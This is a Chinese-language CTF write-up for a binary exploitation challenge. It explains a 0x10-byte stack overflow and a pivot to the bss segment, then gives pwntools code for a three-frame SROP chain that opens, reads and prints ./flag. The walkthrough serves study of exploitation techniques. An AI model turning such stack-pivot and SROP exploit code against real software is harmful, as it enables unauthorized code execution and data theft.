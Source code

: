 ### 分析代码

```bash
syscall(0LL, 0LL, &unk_404060, 4096LL);
  syscall(0LL, 0LL, v1, 58LL);
```

可以看到有两段输入，一段在 bss 段上，大小为 0x1000，另一段在栈上，溢出了 0x10 字节

输入长度不够如何构造 srop？

此时我们便可以用这个 0x10 字节溢出来实现栈迁移，将栈迁移到 bss 段上后第一段读入就可以实现一个非常大的数据读入，足够进行三段 SROP 链的构造了

程序中也给了 rax 的赋值

```bash
.text:000000000040118F 55                            push    rbp
.text:0000000000401190 48 89 E5                      mov     rbp, rsp
.text:0000000000401193 48 C7 C0 0F 00 00 00          mov     rax, 0Fh
.text:000000000040119A C3                            retn
```

### exp 解析

```bash
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))
```

首先是一个经典 0x10 字节的栈迁移过程，不了解的师傅可以看看这篇文章：[栈迁移详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12189)

这里不多赘述

接下来就是 SROP 链的构造：

```bash
payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0
payload += p64(rax_15)+p64(syscall2)+bytes(frame)
```
